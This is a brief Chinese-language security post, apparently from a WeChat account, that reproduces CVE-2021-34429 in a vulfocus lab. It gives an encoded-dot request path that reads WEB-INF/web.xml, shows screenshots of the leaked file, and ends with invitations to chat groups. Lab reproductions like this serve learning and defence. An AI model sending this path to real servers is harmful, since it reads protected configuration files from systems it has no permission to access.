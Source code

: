 CVE-2021-34429  
  
信息泄露路径：http://目标  
ip  
:端口/%u002e/WEB-INF/web.xml  
  
使用  
vulfocus  
靶场复现CVE-2021-34429  
  
开启漏洞环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVictr0BY27pBXaEjj0ShDIyjtUItTQmlgrQe1IEJ8cAySbNicBSQ9Oe1w/640?wx_fmt=png&from=appmsg "")  
  
直接访问信息泄露路径，成功获取敏感信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVC51DnYRPda0Iyia9JxUDJAwH4ZCHBklOhWruns4Xn1GfQ7hgGztB31w/640?wx_fmt=png&from=appmsg "")  
  
网络安全技术交流群：wx加我好友，备注“进群”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b9ibb0kbHCImS2ldibAAaXVDGRKsYsrwDjQmnYKiauv2Vz2eknbKu3CoVokgYhb09xbGUpBxLqSVsdJBDmic1oiclmA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
QQ群：708769345  
  
  
